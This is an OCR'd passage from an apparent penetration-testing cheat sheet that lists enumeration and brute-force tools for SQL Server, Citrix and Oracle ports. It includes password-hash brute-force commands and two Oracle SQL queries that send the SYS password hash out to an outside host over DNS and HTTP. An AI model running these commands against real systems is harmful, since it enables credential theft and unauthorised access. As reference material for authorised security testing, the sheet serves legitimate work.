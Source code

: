 - SQLPing2
- SQLPing3
- SQLpoke
- SQL Recon
- SQLver
## SQL Brute Force
- SQLPAT
    - `sqlbf -u hashes.txt -d dictionary.dic -r out.rep - Dictionary Attack`
    - `sqlbf -u hashes.txt -c default.cm -r out.rep - Brute-Force Attack`
- SQL Dict
- SQLAT
- Hydra
- SQLlhf
- ForceSQL

# Citrix port 1494 open
## Citrix Enumeration
- Default Domain
- Published Applications
    - `./citrix-pa-scan {IP_address/file | - | random} [timeout]`
    - `citrix-pa-proxy.pl IP_to_proxy_to [Local_IP]`
## Citrix Brute Force
- bforce.js
- connect.js
- Citrix Brute-forcer
- Reference Material
    - Hacking Citrix - the legitimate backdoor
    - Hacking Citrix - the forceful way
# Oracle Port 1521 Open
## Oracle Enumeration
- oracsec
- Repscan
- Sidguess
- Scuba
- DNS/HTTP Enumeration
    - SQL> `SELECT UTL_INADDR.GET_HOST_ADDRESS((SELECT PASSWORD FROM DBA_USERS WHERE US ERNAME='SYS')||'.vulnerabilityassessment.co.uk') FROM DUAL; SELECT UTL_INADDR.GET_HOST_ADDRESS((SELECT PASSWORD FROM DBA_USERS WHERE USERNAM E='SYS')||'.vulnerabilityassessment.co.uk') FROM DUAL`
    - SQL> `select utl_http.request('http://gladius:5500/'||(SELECT PASSWORD FROM DBA_USERS WHERE USERNAME='SYS')) from dual;`
- WinSID
- Oracle default password list
- TNSVer
    - `tnsver host [port]`
- TCP Scan
- Oracle TNSLSNR
    - Will respond to: [ping] [version] [status] [service] [change_password] [help] [reload] [save_config] [set log_directory] [set display_mode] [set log_file] [show] [spawn] [stop]
- TNSCmd
    - `perl tnscmd.pl -h ip_address`
    - `perl tnscmd.pl version -h ip_address`
    - `perl tnscmd.pl status -h ip_address`
    - `perl tnscmd.pl -h ip_address --cmdsize (40 - 200)`
- LSNrCheck
- Oracle Security Check (needs credentials)
- OAT